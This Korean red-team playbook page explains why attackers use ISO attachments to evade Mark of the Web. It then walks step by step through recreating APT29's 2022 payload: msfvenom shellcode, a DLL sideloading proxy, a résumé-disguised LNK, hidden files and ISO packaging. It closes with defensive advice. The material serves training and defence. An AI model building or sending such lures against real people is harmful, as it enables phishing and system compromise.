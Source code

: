 ```yaml
---
description: T1553.005
---
```


# ISO

악성 오피스 문서의 시대가 저물며 공격자들은 피싱에 사용될 수 있는 첨부 파일 종류들을 찾기 시작했다. ISO 파일 포멧은 2022년도 기준으로 실제 공격자들이 공격에 자주 쓰는 파일 종류다. ISO (Optical Disk Image) 파일 포멧은 이미지 파일로도 불리며, CD/DVD/블루레이 등의 옵티컬 디스크의 특징을 갖고 있는 파일 포멧 중 하나다. &#x20;

공격자들이 ISO를 피싱 공격을 할 때 첨부 파일로 자주 사용하는 이유는 다음과 같다:&#x20;

#### 1. Mark of the Web (MOTW) 가 없다&#x20;

인터넷에서 다운 받은 `.exe` `.dll` 등의 파일들은 윈도우의 NTFS 파일 시스템의 특징 중 하나인 Alternate Data Stream (ADS) 에 "인터넷에서 다운 받은 파일" 이라는 낙인(?)이 찍힌다. 이것을 Mark of the Web 이라고 부른다. MotW 이 찍힌 파일을 실행하려고 하면 윈도우는 유저에게 경고창을 띄운다. 이는 인터넷에서 다운 받은 위험한 파일을 유저가 실행하지 않도록 하는데 큰 도움을 준다.&#x20;

![이런 경고창 한 번 쯤은 본 기억이 있지 않은가](<../../.gitbook/assets/image (11) (1).png>)

하지만 이런 MotW 낙인이 붙지 않는 파일 확장자들도 있다. 7Z, ZIP, ISO, IMG, CAB 등의 파일 확장자들이 대표적이다.&#x20;

#### 2. ISO는 압축 파일 형태다&#x20;

ISO 파일들은 컴팩트 디스크 이미지 파일이고, ISO 파일 포멧안에는 여러개의 파일을 포함시킬 수 있다. 사실상 공격자의 입장에서는 `.zip` 혹은 `.7z` 와 같은 압축 파일을 보내는 것과 비슷하다. 공격자들은 피싱 공격을 할 때 ISO 파일 안에 다른 페이로드들을 같이 숨겨 놓은 형태로 파일을 전송한다. 이때 숨김 파일 (TODO: 페이지 생성 + 링크) 기법을 이용해 ISO 안에 다른 파일들이 보이지 않도록 하는 방법도 쓴다.&#x20;

#### 3. 실행이 간편하다&#x20;

피해자 유저가 ISO 파일을 더블클릭 하면 파일은 자동으로 파일 시스템에 마운트가 되며, 그 안의 파일들은 모두 압축이 풀린 형태로 마운트 된 드라이브에 쓰여진다.&#x20;

### 실습&#x20;

실습에서는 APT29 그룹이 2022년 7월 [실제 공격](https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/)에 사용했던 페이로드를 똑같이 재현해본다. APT29는 러시아의 해외정보국 (SVR) 이라고 추측되는 그룹이다.&#x20;

7월달 공격에서 APT29는 ISO 파일 안에 마이크로소프트사의 바이너리인 `OneDriveStandAloneUpdater.exe` 를 넣은 뒤, `version.dll` DLL 파일을 사이드로딩 했다. 사이드로딩을 실행하는 데에는 자기소개서/레쥬처럼 생긴 LNK 파일을 사용했다. 이 모든 페이로드들을 담고 있 ISO 파일 안의 페이로드들은 다음과 같다:&#x20;

1. OneDriveStandAloneUpdater.exe - 마이크로소프트사의 공식 바이너리&#x20;
2. version.dll - 공격자의 프록시 DLL&#x20;
3. vresion.dll - 진짜 version.dll 파일. APT29 그룹은 `vresion` 으로 이름을 바꿨다.&#x20;
4. OneDrive.Update - 공격자의 쉘코드. 프록시 DLL 안에 넣어도 되는데 APT29는 굳이 파일 시스템에 저장했다.&#x20;
5. `Roshan-Bandara_CV_Dialog.lnk` - OneDriveStandAloneUpdater.exe 파일을 실행시킬 LNK 파일. LNK 파일이 악성코드에 사용되 방법은 [LNK 첨부파일 페이지](lnk.md)를 참고한다.&#x20;

페이로드들은 다음과 같이 생성한다.&#x20;

1. 쉘코드를 생성한다.&#x20;

```
msfvenom -p windows/x64/messagebox text="Stage0 shellcode" title="choi redteam playbook" -f raw -o OneDrive.Update
```

2\. SharpDLLProxy 를 통해 dllsideloading 을 할 프록시 DLL을 만든다. SharpDllProxy 를 실행 한 뒤 `version.dll` 은 `vresion.dll` 로 이름을 바꾼 뒤, DLL 사이드로딩을 할 디렉토리로 옮긴다.&#x20;

```
# <SharpDLLProxy directory...> 
cp c:\windows\system32\version.dll . 
./SharpDllProxy.exe --dll version.dll --payload OneDrive.Update

cp ./version.dll c:\opt\dllsideloading\vresion.dll 
```

3\. SharpDLLProxy 가 만든 `.c` 파일을 수정한 뒤, 컴파일 한다. 맨 위의 `pragma comment` 에서 DLL 이름을 `tmpXXXX` 에서 `vresion` 으로 수정해주면 끝이다.&#x20;

![](<../../.gitbook/assets/image (5) (1) (2) (1).png>)

4\. version.dll 로 컴파일 한다.&#x20;

5\. LNK 페이로드를 만든다.&#x20;

```
$obj = New-object -comobject wscript.shell
$link = $obj.createshortcut("C:\opt\dllsideloading\Roshan-Bandara_CV_Dialog.lnk")
$link.windowstyle = "7"
$link.targetpath = "C:\Windows\System32\cmd.exe"
$link.iconlocation = "C:\Program Files\Windows NT\Accessories\wordpad.exe"
# If you have office16, use the icon below 
#$link.iconlocation = "C:\Program Files (x86)\Microsoft Office\root\Office16\WORDICON.exe"
$link.arguments = "/c start OneDriveStandaloneUpdater.exe"
$link.save()
```

6\. 이후 `OneDriveStandaloneUpdater.exe`, `version.dll`, `vresion.dll`, `OneDrive.Update` , `Roshan-Bandara_CV_Dialog.lnk` 를 모두 ISO를 만들 디렉토리로 옮긴다.&#x20;

7\. `attrib.exe +h` 를 이용해 lnk 파일을 제외한 모든 파일들은 숨김 처리를 해준다.&#x20;

```
attrib.exe +h .\OneDrive.Update
attrib.exe +h .\OneDriveStandaloneUpdater.exe
attrib.exe +h .\version.dll
attrib.exe +h .\vresion.dll
```

8\. 마지막으로 iso를 다음의 파워쉘 스크립트를 이용해 만든다. 원본은 여기있다&#x20;

<details>

<summary>New-ISOFile.ps1</summary>

```
# https://github.com/SQLDBAWithABeard/Functions/blob/master/New-IsoFile.ps1
function New-IsoFile 
{  
  <# .Synopsis Creates a new .iso file .Description The New-IsoFile cmdlet creates a new .iso file containing content from chosen folders .Example New-IsoFile "c:\tools","c:Downloads\utils" This command creates a .iso file in $env:temp folder (default location) that contains c:\tools and c:\downloads\utils folders. The folders themselves are included at the root of the .iso image. .Example New-IsoFile -FromClipboard -Verbose Before running this command, select and copy (Ctrl-C) files/folders in Explorer first. .Example dir c:\WinPE | New-IsoFile -Path c:\temp\WinPE.iso -BootFile "${env:ProgramFiles(x86)}\Windows Kits\10\Assessment and Deployment Kit\Deployment Tools\amd64\Oscdimg\efisys.bin" -Media DVDPLUSR -Title "WinPE" This command creates a bootable .iso file containing the content from c:\WinPE folder, but the folder itself isn't included. Boot file etfsboot.com can be found in Windows ADK. Refer to IMAPI_MEDIA_PHYSICAL_TYPE enumeration for possible media types: http://msdn.microsoft.com/en-us/library/windows/desktop/aa366217(v=vs.85).aspx .Notes NAME: New-IsoFile AUTHOR: Chris Wu LASTEDIT: 03/23/2016 14:46:50 #> 
   
  [CmdletBinding(DefaultParameterSetName='Source')]Param( 
    [parameter(Position=1,Mandatory=$true,ValueFromPipeline=$true, ParameterSetName='Source')]$Source,  
    [parameter(Position=2)][string]$Path = "$env:temp\$((Get-Date).ToString('yyyyMMdd-HHmmss.ffff')).iso",  
    [ValidateScript({Test-Path -LiteralPath $_ -PathType Leaf})][string]$BootFile = $null, 
    [ValidateSet('CDR','CDRW','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','BDR','BDRE')][string] $Media = 'DVDPLUSRW_DUALLAYER', 
    [string]$Title = (Get-Date).ToString("yyyyMMdd-HHmmss.ffff"),  
    [switch]$Force, 
    [parameter(ParameterSetName='Clipboard')][switch]$FromClipboard 
  ) 
  
  Begin {  
    ($cp = new-object System.CodeDom.Compiler.CompilerParameters).CompilerOptions = '/unsafe' 
    if (!('ISOFile' -as [type])) {  
      Add-Type -CompilerParameters $cp -TypeDefinition @'
public class ISOFile  
{ 
  public unsafe static void Create(string Path, object Stream, int BlockSize, int TotalBlocks)  
  {  
    int bytes = 0;  
    byte[] buf = new byte[BlockSize];  
    var ptr = (System.IntPtr)(&bytes);  
    var o = System.IO.File.OpenWrite(Path);  
    var i = Stream as System.Runtime.InteropServices.ComTypes.IStream;  
   
    if (o != null) { 
      while (TotalBlocks-- > 0) {  
        i.Read(buf, BlockSize, ptr); o.Write(buf, 0, bytes);  
      }  
      o.Flush(); o.Close();  
    } 
  } 
}  
'@  
    } 
   
    if ($BootFile) { 
      if('BDR','BDRE' -contains $Media) { Write-Warning "Bootable image doesn't seem to work with media type $Media" } 
      ($Stream = New-Object -ComObject ADODB.Stream -Property @{Type=1}).Open()  # adFileTypeBinary 
      $Stream.LoadFromFile((Get-Item -LiteralPath $BootFile).Fullname) 
      ($Boot = New-Object -ComObject IMAPI2FS.BootOptions).AssignBootImage($Stream) 
    } 
  
    $MediaType = @('UNKNOWN','CDROM','CDR','CDRW','DVDROM','DVDRAM','DVDPLUSR','DVDPLUSRW','DVDPLUSR_DUALLAYER','DVDDASHR','DVDDASHRW','DVDDASHR_DUALLAYER','DISK','DVDPLUSRW_DUALLAYER','HDDVDROM','HDDVDR','HDDVDRAM','BDROM','BDR','BDRE') 
  
    Write-Verbose -Message "Selected media type is $Media with value $($MediaType.IndexOf($Media))"
    ($Image = New-Object -com IMAPI2FS.MsftFileSystemImage -Property @{VolumeName=$Title}).ChooseImageDefaultsForMediaType($MediaType.IndexOf($Media)) 
   
    if (!($Target = New-Item -Path $Path -ItemType File -Force:$Force -ErrorAction SilentlyContinue)) { Write-Error -Message "Cannot create file $Path. Use -Force parameter to overwrite if the target file already exists."; break } 
  }  
  
  Process { 
    if($FromClipboard) { 
      if($PSVersionTable.PSVersion.Major -lt 5) { Write-Error -Message 'The -FromClipboard parameter is only supported on PowerShell v5 or higher'; break } 
      $Source = Get-Clipboard -Format FileDropList 
    } 
  
    foreach($item in $Source) { 
      if($item -isnot [System.IO.FileInfo] -and $item -isnot [System.IO.DirectoryInfo]) { 
        $item = Get-Item -LiteralPath $item
      } 
  
      if($item) { 
        Write-Verbose -Message "Adding item to the target image: $($item.FullName)"
        try { $Image.Root.AddTree($item.FullName, $true) } catch { Write-Error -Message ($_.Exception.Message.Trim() + ' Try a different media type.') } 
      } 
    } 
  } 
  
  End {  
    if ($Boot) { $Image.BootImageOptions=$Boot }  
    $Result = $Image.CreateResultImage()  
    [ISOFile]::Create($Target.FullName,$Result.ImageStream,$Result.BlockSize,$Result.TotalBlocks) 
    Write-Verbose -Message "Target image ($($Target.FullName)) has been created"
    $Target
  } 
} 
```

</details>

```
# Move to the payload directory and create the ISO file 
. ./New-ISOFile.ps1 
cd c:\opt\dllsideloading 
get-childitem . -Force | New-IsoFile -Path C:\opt\Roshan_CV.iso
```

완성된 페이로드는 다음과 같다.&#x20;



![](../../.gitbook/assets/apt29-iso.gif)

ISO를 더블클릭하면 드라이브에 마운트가 된다. 안에는 LNK 파일 밖에 보이지 않지만, 실제로는 숨겨진 파일들이 존재하고, 이 파일들이 DLL 사이드로딩을 일으켜 페이로드가 실행되게 된다.&#x20;



### 대응 방안&#x20;

ISO 파일은 수상하다. 왠만한 웹앱 기반의 이메일이나 이메일 솔루션들은 파일을 다운 받기 전 파일의 확장자를 보여준다. 분명 본인이 디스크 파일을 다운 받는 것이 아닌데 다른 사람이 뜬금없이 ISO 파일을 보내왔다면, 더 주의를 기울이도록 하자.&#x20;

예를 들어 APT29 같은 경우 외국의 자기소개서/레쥬메(Resume) 같은 CV 파일을 ISO 파일에 담아서 보냈다. 회사 지원시 레쥬메를 낼 때 PDF 말고 다른 확장자를 썼던 기억이 있던가? 이처럼 ISO 확장자가 굳이 필요한 상황이 아닌데 상대방이 ISO 파일을 보내왔다면 조심해야 한. &#x20;

그외에는 윈도우 익스플로러의 View -> Options -> View 에서 다음과 같은 옵션들을 활성화시킨다.&#x20;

* Show hidden files, folders, and drives (숨겨진 파일, 폴더, 드라이브 보이기) **활성화**&#x20;
* Hide extensions from known file types (잘 알려진 파일 확장자 숨기기) **비활성화**



### 레퍼런스&#x20;

{% embed url="https://github.com/mgeeky/PackMyPayload" %}

{% embed url="https://outflank.nl/blog/2020/03/30/mark-of-the-web-from-a-red-teams-perspective/" %}

{% embed url="https://unit42.paloaltonetworks.com/brute-ratel-c4-tool/" %}
